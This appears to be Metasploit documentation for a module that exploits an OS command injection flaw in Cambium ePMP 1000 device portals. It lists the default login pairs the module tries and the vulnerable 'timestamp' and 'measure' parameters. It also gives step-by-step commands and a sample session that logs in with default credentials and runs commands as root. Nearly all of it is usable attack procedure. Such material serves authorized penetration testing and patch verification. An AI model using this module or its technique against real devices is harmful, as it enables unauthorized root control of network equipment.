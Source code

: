 This module exploits an OS Command Injection vulnerability in Cambium ePMP 1000 (v3.1-3.5-RC7) device management portal. It requires any one of the following login credentials - admin/admin, installer/installer, home/home - to execute arbitrary system commands. This module injects the payload in 'timestamp' parameter. Alternatively, a second, vulnerable parameter 'measure' can also be used.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/epmp1000_get_chart_cmd_exec```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```set CMD [COMMAND]```
5. Do: ```run```

## Scenarios

  ```
msf > use auxiliary/scanner/http/epmp1000_get_chart_cmd_exec
msf auxiliary(epmp1000_get_chart_cmd_exec) > set rhosts 1.3.3.7
msf auxiliary(epmp1000_get_chart_cmd_exec) > set rport 80
msf auxiliary(epmp1000_get_chart_cmd_exec) > set CMD id; pwd
msf auxiliary(epmp1000_get_chart_cmd_exec) > run

[+] 1.3.3.7:80 - Running Cambium ePMP 1000 version 3.5...
[*] 1.3.3.7:80 - Attempting to login...
[+] SUCCESSFUL LOGIN - 1.3.3.7:80 - "installer":"installer"
[*] 1.3.3.7:80 - Executing id; pwd
uid=0(root) gid=0(root)
/
[*] 1.3.3.7:80 - File saved in: /root/.msf4/loot/20000000000003_default_1.3.3.7_ePMP_cmd_exec_12345.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```
